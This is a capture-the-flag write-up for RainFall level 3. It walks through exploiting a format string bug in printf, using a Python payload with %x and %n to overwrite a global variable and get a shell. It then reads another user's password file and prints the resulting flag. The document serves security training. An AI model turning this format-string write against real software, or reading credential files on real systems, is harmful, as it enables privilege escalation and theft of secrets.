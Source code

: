 # Level 3

As usual, there is a binary which we decompiled [here](./level3_decomp.c).

The `return system("/bin/sh")` jumps to our eyes, it requires to pass a check, `m` must be equal to `64`. Easy, right?

We don't have a big impact on aything except the printf located later which prints our buffer. Good news for us, that's all we need.

## Exploit

We will need to change the value of `m` to pass our check and open a shell, so first thing first, we need to find its address:

```bash
level3@RainFall:~$ objdump -t level3 | grep m
level3:     file format elf32-i386
080481b8 l    d  .dynsym        00000000              .dynsym
08048618 l    d  .eh_frame_hdr  00000000              .eh_frame_hdr
08048654 l    d  .eh_frame      00000000              .eh_frame
0804974c l    d  .dynamic       00000000              .dynamic
00000000 l    d  .comment       00000000              .comment
08049884 l     O .bss           00000001              completed.6159
08048480 l     F .text          00000000              frame_dummy
08048734 l     O .eh_frame      00000000              __FRAME_END__
0804974c l     O .dynamic       00000000              _DYNAMIC
00000000       F *UND*          00000000              system@@GLIBC_2.0
00000000  w      *UND*          00000000              __gmon_start__
00000000       F *UND*          00000000              __libc_start_main@@GLIBC_2.0
0804988c g     O .bss           00000004              m
0804851a g     F .text          0000000d              main
level3@RainFall:~$
```

So we know the adress of m: `0804988c`.

Now the fact that `printf(buff)` is used makes it vulnerable compared to `printf("%s\n", buff)`. Which means our string will be replaced like well, inside a printf!

For example: 

```bash
level3@RainFall:~$ ./level3
aaaa %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

It prints our string, then the address of ENV, some more addresses for locals and finally, our string.

And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
`%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

<details>
    <summary>Spoiler</summary>

  And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
  `%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

    ```bash
    level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x%x%49u%n"' > /var/crash/write
    level3@RainFall:~$ cat /var/crash/write - | ./level3
    ��200b7fd1ac0                                       3086956496
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

</details>



### Alternate write

<details>
    <summary>Spoiler</summary>

We can also substitute the `49u` and instead print 38 a, which will produce the same result!

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

</details>

## Flag

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
